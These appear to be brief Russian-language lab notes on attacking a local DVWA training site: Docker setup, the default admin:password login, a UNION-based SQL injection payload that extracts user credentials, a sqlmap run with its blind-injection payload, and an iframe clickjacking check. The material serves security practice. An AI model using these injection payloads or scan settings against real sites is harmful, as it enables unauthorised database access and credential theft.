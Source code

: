 ## Запуск тестового сайта

```
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

## Настройка
1. http://localhost/index.php
2. reset/create database
3. admin:password
4. `%' and 1=0 union select null, concat(user,':',password) from users`

## SQL-injection scan
python3 -m sqlmap -r ../dvwa/sqlmap.example --dbms=mysql --risk=3 --level=5
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 502 HTTP(s) requests:
```
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: id=1' OR NOT 4197=4197-- twle&Submit=Submit
```

file:///home/mgolubev/Projects/dvwa/iframe.html
Refused to display 'https://ya.ru/' in a frame because it set 'X-Frame-Options' to 'deny'.

